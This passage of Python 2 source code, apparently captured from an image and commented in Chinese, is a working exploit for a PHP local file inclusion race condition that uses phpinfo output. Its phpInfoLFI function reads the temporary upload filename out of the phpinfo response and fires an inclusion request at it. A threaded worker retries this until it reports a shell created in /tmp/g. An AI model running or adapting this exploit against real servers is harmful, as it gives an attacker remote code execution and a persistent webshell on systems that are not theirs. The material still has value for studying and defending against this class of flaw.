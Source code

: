 ```python
\r
"""
    return (REQ1, TAG, LFIREQ)



def phpInfoLFI(host, port, phpinforeq, offset, lfireq, tag):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s2 = socket.socket(socket.AF_INET, socket.SOCK_STREAM)    

    s.connect((host, port))
    s2.connect((host, port))

    s.send(phpinforeq)                        #向phpinfo 发起请求
    d = ""
    while len(d) < offset:
        d += s.recv(offset)
    try:
        i = d.index("[tmp_name] =&gt; ")      #从偏移量中找关键字
        fn = d[i+17:i+31]                     
        #得到临时文件名（这个切片和系统有关，我在windows 下测试使用的是 d[i+17:i+39]）

    except ValueError:
        return None

    s2.send(lfireq % (fn, host))               #发起LFI请求
    d = s2.recv(4096)
    s.close()
    s2.close()

    if d.find(tag) != -1:                     #找页面返回中我们之前设下的标志 TAG
        return fn

counter=0
class ThreadWorker(threading.Thread):
    def __init__(self, e, l, m, *args):
        threading.Thread.__init__(self)
        self.event = e
        self.lock =  l
        self.maxattempts = m
        self.args = args

    def run(self):
        global counter
        while not self.event.is_set():
            with self.lock:
                if counter >= self.maxattempts:
                    return
                counter+=1

            try:
                x = phpInfoLFI(*self.args)
                if self.event.is_set():
                    break                
                if x:
                    print "\nGot it! Shell created in /tmp/g"
                    self.event.set()

            except socket.error:
                return


def getOffset(host, port, phpinforeq):
```